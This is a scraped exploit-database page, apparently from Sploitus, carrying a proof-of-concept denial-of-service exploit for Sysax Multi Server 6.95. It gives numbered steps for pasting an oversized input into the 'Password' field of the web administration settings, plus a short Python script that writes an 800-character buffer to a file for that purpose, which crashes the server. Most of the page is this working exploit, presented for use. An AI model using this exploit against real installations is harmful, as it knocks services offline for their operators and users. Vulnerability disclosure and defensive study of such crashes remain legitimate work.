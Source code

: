 ```yaml
---
title: Sysax Multi Server 6.95 - (Password) Denial of Service Exploit exploit
url: https://sploitus.com/exploit?id=1337DAY-ID-38313&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-03-28
fetch_date: 2025-10-04T10:50:31.162107
---
```


# Sysax Multi Server 6.95 - (Password) Denial of Service Exploit exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Sysax Multi Server 6.95 - (Password) Denial of Service Exploit

2023-03-27 | CVSS 6.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=1337DAY-ID-38313
# Exploit Title: Sysax Multi Server 6.95 - 'Password' Denial of Service (PoC)
# Discovery by: Luis Martinez
# Vendor Homepage: https://www.sysax.com/
# Software Link: https://www.sysax.com/download/sysaxserv_setup.msi
# Tested Version: 6.95
# Vulnerability Type: Denial of Service (DoS) Local
# Tested on OS: Windows 10 Pro x64 es

# Steps to Produce the Crash:
# 1.- Run python code: Sysax_Multi_Server_6.95.py
# 2.- Open Sysax_Multi_Server_6.95.txt and copy content to clipboard
# 3.- Open "Sysax Multi Server"
# 4.- Manage Server Settings...
# 5.- Administrative Settings -> Configure...
# 6.- Clic "Enable web based administration and API access"
# 7.- Login -> admin
# 8.- Paste ClipBoard on "Password"
# 9.- Save
# 10.- Crashed

#!/usr/bin/env python

buffer = "\x41" * 800
f = open ("Sysax_Multi_Server_6.95.txt", "w")
f.write(buffer)
f.close()
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)
